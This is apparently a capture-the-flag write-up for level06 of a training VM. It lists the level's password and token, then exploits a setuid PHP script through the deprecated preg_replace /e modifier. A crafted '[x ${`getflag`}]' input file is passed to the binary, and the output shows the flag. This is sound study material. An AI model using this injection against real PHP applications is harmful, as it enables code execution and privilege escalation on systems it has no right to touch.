 # Level06 - Flag06

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level06 | `viuaaale9huek52boumoomioc` |
| flag06  |                             |
| token   | `wiok45aaoguiboiki2tuin6ub` |

## Steps to resolve on VM

1. Connect to `level06` user and notice there is an executable and a php script owned by `flag06` user

```bash
su level06
# Enter the token

ls -l
> -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
> -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

2. Check the files

```bash
# We check first the content executed by this executable
strings level06
> [...]
> /usr/bin/php # It's indeed a PHP executable
> /home/user/level06/level06.php # Which is using the 'level06.php' script
> [...]

cat level06.php
> #!/usr/bin/php
> <?php
> function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
> function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
> $r = x($argv[1], $argv[2]); print $r;
> ?>
# By watching the script, we can notice that it takes a file as an argument, and applies some 'preg_replace'
# However, the first 'preg_replace' uses the 'e' modifier, a deprecated regex modifier which allows you to use PHP code within your regular expression
# We will use that to inject our "getflag" command
```

3. Exploit the 'e' modifier

We must match the `/(\\[x (.*)\\])/e` regex so it captures our "getflag" command and executes it with the 'e' modifier.

Basically, it will match anything with a format like : `[x test]`, and capture "test" in this example

So we need to give him getflag like this: [x \`getflag\`],
but to make it executable by the PHP script we must enclose it : [x ${\`getflag\`}]

```bash
# 1. Put it in a file
echo '[x ${`getflag`}]' > /tmp/flag06

# 2. Execute the PHP script to get the flag
./level06 /tmp/flag06
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
>  in /home/user/level06/level06.php(4) : regexp code on line 1
>
```

---

## Sources

### SHELL

- [/e regex modifier](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)
- [Meaning of \\2](https://stackoverflow.com/questions/44879971/php-meaning-1-in-preg-replace)